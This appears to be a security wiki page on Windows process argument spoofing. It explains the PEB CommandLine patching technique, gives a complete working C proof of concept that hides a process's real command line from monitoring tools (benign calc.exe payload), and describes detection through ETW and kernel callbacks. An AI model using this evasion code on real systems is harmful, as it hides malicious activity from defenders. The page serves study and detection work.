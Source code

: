 # Process Argument Spoofing

Process Argument Spoofing is a technique that allows attackers to stomping the command line argument of a newly spawned process by updating [Process Environment Block (PEB)](https://learn.microsoft.com/fr-fr/windows/win32/api/winternl/ns-winternl-peb) structure, more specifically by patching the buffer of `CommandLine` attribute (`UNICODE_STRING` name structure data type) in [RTL_USER_PROCESS_PARAMETERS](https://learn.microsoft.com/fr-fr/windows/win32/api/winternl/ns-winternl-rtl_user_process_parameters) structure placed named `ProcessParameters` in PEB.

This causes unrevealing the real cmdline them to monitoring tools like [Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon)

![](../../.gitbook/assets/arg-spoofing.png)

This technique can be coupled with [PPID Spoofing](parent-process-id-ppid-spoofing.md) to obtain a complete "fake" command.

## Attack

To summarize:

1. Create a process in suspended state using [CreateProcessW](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw) with `CREATE_SUSPENDED` parameter.
2. Get his PEB structure address with [NtQueryInformationProcess](https://learn.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntqueryinformationprocess) function and `ProcessBasicInformation` flag passed.
3. Get `ProcessParameters` address by reading PEB with [ReadProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-readprocessmemory) function. Reuse this WinAPI function to read `ProcessParameters` structure.
4. Patch the buffer of CommandLine in ProcessParameters structure (`PEB->ProcessParameters.CommandLine.Buffer`) with "fake" argument by using [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) function.
5. Continue process execution with new parameters using [ResumeThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread) function.

![](../../.gitbook/assets/arg-spoofing-schema.svg)

### Simple code sample

```c
#include <Windows.h>
#include <stdio.h>
#include <winternl.h>

#define FAKE_ARG	L"powershell.exe -c Write-Host 'I love cats'"
#define REAL_ARG	L"powershell.exe -c calc.exe"

typedef NTSTATUS (NTAPI* NTQUERYINFORMATIONPROCESS)(
	HANDLE           ProcessHandle,
	PROCESSINFOCLASS ProcessInformationClass,
	PVOID            ProcessInformation,
	ULONG            ProcessInformationLength,
	PULONG           ReturnLength
);

BOOL ReadMemory(IN HANDLE hProcess, IN PVOID pAddress, OUT PVOID* ppReadBuffer, IN DWORD dwBufferSize) {
	SIZE_T	bytesRead	= NULL;

	*ppReadBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dwBufferSize);
	ReadProcessMemory(hProcess, pAddress, *ppReadBuffer, dwBufferSize, &bytesRead);

	return TRUE;
}

BOOL WriteMemory(IN HANDLE hProcess, IN PVOID pAddressWritten, IN PVOID pBuffer, IN DWORD dwBufferSize) {
	SIZE_T bytesWrite	= NULL;

	WriteProcessMemory(hProcess, pAddressWritten, pBuffer, dwBufferSize, &bytesWrite);

	return TRUE;
}

BOOL ArgSpoofing(IN LPWSTR szStartupArgs, IN LPWSTR szRealArgs, OUT DWORD* dwProcessId, OUT HANDLE* hProcess, OUT HANDLE* hThread) {
	NTSTATUS						STATUS		= NULL;
	WCHAR							szProcess	[MAX_PATH];
	STARTUPINFOW					Si			= { 0 };
	PROCESS_INFORMATION				Pi			= { 0 };
	PROCESS_BASIC_INFORMATION		PBI			= { 0 };
	PPEB							pPeb		= NULL;
	PRTL_USER_PROCESS_PARAMETERS	pParms		= NULL;
	NTQUERYINFORMATIONPROCESS NtQueryInformationProcessStruct = (NTQUERYINFORMATIONPROCESS)GetProcAddress(GetModuleHandleW(L"NTDLL"), "NtQueryInformationProcess");

	RtlSecureZeroMemory(&Si, sizeof(STARTUPINFOW));
	RtlSecureZeroMemory(&Pi, sizeof(PROCESS_INFORMATION));

	Si.cb = sizeof(STARTUPINFOW);

	lstrcpyW(szProcess, szStartupArgs);

	CreateProcessW(
		NULL,
		szProcess,
		NULL,
		NULL,
		FALSE,
		CREATE_SUSPENDED | CREATE_NO_WINDOW,
		NULL,
		L"C:\\Windows\\System32\\",
		&Si,
		&Pi);
	printf("[+] PID: %d\n", Pi.dwProcessId);

	NtQueryInformationProcessStruct(Pi.hProcess, ProcessBasicInformation, &PBI, sizeof(PROCESS_BASIC_INFORMATION), NULL);
	ReadMemory(Pi.hProcess, PBI.PebBaseAddress, &pPeb, sizeof(PEB));
	ReadMemory(Pi.hProcess, pPeb->ProcessParameters, &pParms, sizeof(RTL_USER_PROCESS_PARAMETERS) + 0xFF);
	WriteMemory(Pi.hProcess, (PVOID)pParms->CommandLine.Buffer, (PVOID)szRealArgs, (DWORD)(lstrlenW(szRealArgs) * sizeof(WCHAR) + 1));

	HeapFree(GetProcessHeap(), NULL, pPeb);
	HeapFree(GetProcessHeap(), NULL, pParms);
	ResumeThread(Pi.hThread);
	*dwProcessId	= Pi.dwProcessId;
	*hProcess		= Pi.hProcess;
	*hThread		= Pi.hThread;

	return 0;
}

int main(int argc, char* argv[]) {
	HANDLE		hProcess		= NULL,
				hThread			= NULL;
	DWORD		dwProcessId		= NULL;

	ArgSpoofing(FAKE_ARG, REAL_ARG, &dwProcessId, &hProcess, &hThread);

	CloseHandle(hProcess);
	CloseHandle(hThread);
	return 0;
}
```

## Detection

### Event Tracing for Windows (ETW)

For process argument spoofing, we can use [Event Tracing for Windows (ETW)](../../miscellaneous-reversing-forensics/windows-kernel-internals/etw-event-tracing-for-windows-101.md) with `Microsoft-Windows-Kernel-Process` provider or kernel callbacks

It's possible to search for the PID and see through several event logs that the `calc.exe` binary has been executed and not powershell helper.

![](../../.gitbook/assets/etw-arg-spoofing.png)

However, we can see with the [ETW Explorer](https://github.com/zodiacon/EtwExplorer) tool that none of the tasks monitor the command arguments to get the precise command executed:

![](../../.gitbook/assets/etwexplorer-no-arg-monitor.png)

### Kernel Callbacks

There's a more effective way to detect dangerous commands: kernel callbacks.

This method requires the creation of a kernel driver using the [PsSetCreateProcessNotifyRoutine](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-pssetcreateprocessnotifyroutine) routine for callback creation. [PS_CREATE_NOTIFY_INFO](https://learn.microsoft.com/fr-fr/windows-hardware/drivers/ddi/ntddk/ns-ntddk-_ps_create_notify_info) structure must be instantiated to retrieve the CommandLine fields from the processes.

This looks like this code stub:

```c
PPS_CREATE_NOTIFY_INFO createInfo = NULL;
DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_ERROR_LEVEL, "            CommandLine: %ws\n", createInfo->CommandLine->Buffer);
```
